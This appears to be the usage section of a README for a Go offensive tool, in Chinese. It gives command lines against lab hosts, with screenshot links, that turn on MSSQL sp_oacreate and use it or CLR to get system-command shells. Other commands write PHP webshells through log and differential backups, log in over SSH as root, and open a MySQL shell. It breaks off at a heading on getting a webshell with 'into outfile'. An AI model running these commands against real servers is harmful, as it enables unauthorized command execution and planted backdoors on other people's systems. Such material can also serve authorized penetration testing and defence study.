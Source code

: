 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028373704-771c27d7-1c70-4359-818f-f5ee934c03fc.png#averageHue=%232d2d2c&clientId=u08da9ee0-8226-4&from=paste&height=259&id=uf0957005&name=image.png&originHeight=389&originWidth=1786&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86227&status=done&style=none&taskId=u164f0020-29d3-40a2-a39a-b1dae0192d2&title=&width=1190.6666666666667)
### 开启sp_oacreate
```shell
go run main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -issp
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028504490-a80fce4f-dec8-45ed-bf1d-cb8ddada1bf9.png#averageHue=%232e2d2c&clientId=u08da9ee0-8226-4&from=paste&height=264&id=u43df7f3c&name=image.png&originHeight=396&originWidth=1918&originalType=binary&ratio=1&rotation=0&showTitle=false&size=103785&status=done&style=none&taskId=u5cc1b732-ac3e-4e06-b1a9-21d318445ea&title=&width=1278.6666666666667)
### sp_oacreate获取一个执行系统命令的shell
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -issp -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028597527-1f4a86ad-f2e3-474f-bc14-1b72d99b2509.png#averageHue=%232d2c2c&clientId=u08da9ee0-8226-4&from=paste&height=471&id=ub3f49863&name=image.png&originHeight=707&originWidth=2232&originalType=binary&ratio=1&rotation=0&showTitle=false&size=159682&status=done&style=none&taskId=uf13f8f08-71a6-4091-8f2a-cde092c92f1&title=&width=1488)
### sp_oacreate执行单条系统命令
```shell
go run main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX"  -issp -docmd -cmd "whoami"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028782184-2beee226-5d8a-449f-aac8-f92ffba184d7.png#averageHue=%232d2c2c&clientId=u08da9ee0-8226-4&from=paste&height=421&id=u56eedfb9&name=image.png&originHeight=632&originWidth=2319&originalType=binary&ratio=1&rotation=0&showTitle=false&size=146388&status=done&style=none&taskId=u408d7e26-3620-47ab-82de-2c641f0c855&title=&width=1546)
### CLR获取一个执行系统命令的shell
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -isclr -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673029296087-5b97dcab-b004-4e78-9477-7ae2d9079867.png#averageHue=%232d2d2c&clientId=u08da9ee0-8226-4&from=paste&height=438&id=u9b24b4c0&name=image.png&originHeight=657&originWidth=1832&originalType=binary&ratio=1&rotation=0&showTitle=false&size=142685&status=done&style=none&taskId=ua7222524-b6ac-44d8-833d-b9ce6134d74&title=&width=1221.3333333333333)
### CLR执行单条系统命令
```shell
go run main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX"  -isclr -docmd -cmd "whoami"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673029487512-084efe55-dff3-46fd-a2bd-ee4c15bc0408.png#averageHue=%232d2d2c&clientId=u08da9ee0-8226-4&from=paste&height=395&id=u28f01cec&name=image.png&originHeight=592&originWidth=1827&originalType=binary&ratio=1&rotation=0&showTitle=false&size=137314&status=done&style=none&taskId=u1fe330da-bef3-433f-b6e6-058b30d7f7e&title=&width=1218)
### log备份写getshell
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -shell -logshell -path "C:\phpStudy\WWW\aa.php" -e 'php'
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673029630310-7157f5fd-a6d1-4180-a2ab-82365975599a.png#averageHue=%232d2c2c&clientId=u08da9ee0-8226-4&from=paste&height=376&id=u99c99882&name=image.png&originHeight=564&originWidth=2156&originalType=binary&ratio=1&rotation=0&showTitle=false&size=138324&status=done&style=none&taskId=u57002ca6-f2e2-4fe4-927b-55b6f1e8c54&title=&width=1437.3333333333333)
### 差异备份getshell

```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -difshell -path "C:\phpStudy\WWW\shell.php" -e 'php'
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673029787485-9fd603ad-2644-4d3e-85ca-0995f620b4eb.png#averageHue=%232d2c2c&clientId=u08da9ee0-8226-4&from=paste&height=335&id=u548fd650&name=image.png&originHeight=502&originWidth=2102&originalType=binary&ratio=1&rotation=0&showTitle=false&size=121883&status=done&style=none&taskId=udec3fc47-ddfc-4d5b-9628-8e351de57c0&title=&width=1401.3333333333333)
## SSH连接
```shell
go run .\main.go -ssh -ruser root -rhost 192.168.111.139 -pwd "1qaz@WSX"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673030022732-c37f6580-12e8-4262-861e-936263fdf94d.png#averageHue=%232c2c2b&clientId=u08da9ee0-8226-4&from=paste&height=463&id=ua7a42f48&name=image.png&originHeight=694&originWidth=1811&originalType=binary&ratio=1&rotation=0&showTitle=false&size=103526&status=done&style=none&taskId=uada5ae58-8e86-44dd-af4f-6e631ae5dfe&title=&width=1207.3333333333333)
## Mysql
### 连接获取sql shell
```shell
go run .\main.go -mysql -ruser root -rhost 192.168.111.134 -pwd "root" -rport 3306 -cli
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673030365697-3c1c72c2-fe1b-43ce-89ac-06feac0548b5.png#averageHue=%232c2b2b&clientId=u08da9ee0-8226-4&from=paste&height=238&id=u7c6e2300&name=image.png&originHeight=357&originWidth=1676&originalType=binary&ratio=1&rotation=0&showTitle=false&size=45044&status=done&style=none&taskId=ub8d468ed-b2e8-4cd8-8c3e-8d2143dcdb7&title=&width=1117.3333333333333)
### into out file获取webshell